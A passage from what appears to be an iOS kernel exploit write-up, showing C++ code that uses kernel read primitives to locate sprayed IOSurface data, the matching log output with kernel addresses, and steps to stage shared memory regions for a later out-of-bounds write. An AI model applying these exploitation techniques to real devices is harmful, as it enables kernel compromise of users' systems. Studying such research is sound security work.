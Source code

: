 ```cpp

            if(osdict_capacity == (82 MB / 0x10)) {
                uint64_t osdictentry_key = kread64(osdict_entry + off_osdictentry_dict);  
                uint64_t osdict_kbuffer = kread64(osdictentry_key + off_osstring_string);
                
                if(kread32(osdict_kbuffer) == 0xaabbcc) {
                    SUCCESS("Found our 1st sprayed IOSurface data!\n");
                    INFO("OSDict from userspaceValueDicts[%u] = 0x%llx\n", i, dict->items[i].value);
                    INFO("osdict_count = 0x%x, osdict_capacity = 0x%x, osdict_entry = 0x%llx\n", osdict_count, osdict_capacity, osdict_entry);
                    INFO("osdictentry_key = 0x%llx\n", osdictentry_key);
                    INFO("osdict_kbuffer = 0x%llx -> 0x%x\n", osdict_kbuffer, kread32(osdict_kbuffer));
                    break;
                }
            }
        }
    }
    // getchar();
    //
#endif
```

As we can see from running result, huge kalloc was allocated at following address.

huge kalloc(osdict_entry) = 0xffffffe0ca5d0000

```cpp
[*] IOSurface's userspaceValueDicts: 0xffffffe002ba5230
[*] dict 0xffffffe002ba5230, items 0xffffffe002147e80, count 2, capacity 4
[+] Found our 1st sprayed IOSurface data!
[*] OSDict from userspaceValueDicts[1] = 0xffffffe002ba4d80
[*] osdict_count = 0x1, osdict_capacity = 0x520000, osdict_entry = 0xffffffe0ca5d0000
[*] osdictentry_key = 0xffffffe0019e1300
[*] osdict_kbuffer = 0xffffffe0037e8aa0 -> 0xaabbcc
```

![Screenshot 2025-09-10 at 2.03.40 AM.png](pics/Screenshot_2025-09-10_at_2.03.40_AM.png)

## 2. Create 96MB seglist and 96MB cmdbuf shared memory

Next, create two shared memory regions (seglist and cmdbuf), which are needed later to trigger OOB Write.

During allocation, IOKit pageable memory regions are created internally via `IOIteratePageableMaps()`. The maximum size of an IOKit pageable map is 96MB, so by allocating 96MB cmdbuf and 96MB seglist region we can make each to live in its own pageable map.
